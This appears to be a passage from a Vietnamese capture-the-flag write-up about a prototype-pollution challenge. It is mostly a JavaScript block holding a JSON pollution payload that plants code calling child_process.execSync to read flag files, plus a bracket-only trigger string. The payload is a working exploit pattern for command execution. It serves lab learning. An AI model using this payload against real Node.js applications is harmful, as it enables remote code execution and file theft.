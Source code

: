 ![alt text](assets/prototype-pollution-bios/prototype-pollution-bios-18.png)
Bây giờ chỉ cần chuyển sang Jsfuck với 4 kí tự `[]()` là xong.

```js
INPUT_JSON = {
  "constructor": {
    "prototype": {
      "": "import('child_process').then(a=>a.execSync).then(b=>b('cat /flag*')).then(c=>console.log(String(c)))",
      "import('child_process').then(a=>a.execSync).then(b=>b('cat /flag*')).then(c=>console.log(String(c)))": "constructor"
    }
  }
}
INPUT_CODE = "[][[][[][[]]]][[][[][[]]]]([][[]])()"
console.log(JSON.stringify(INPUT_JSON));
console.log(INPUT_CODE);
```
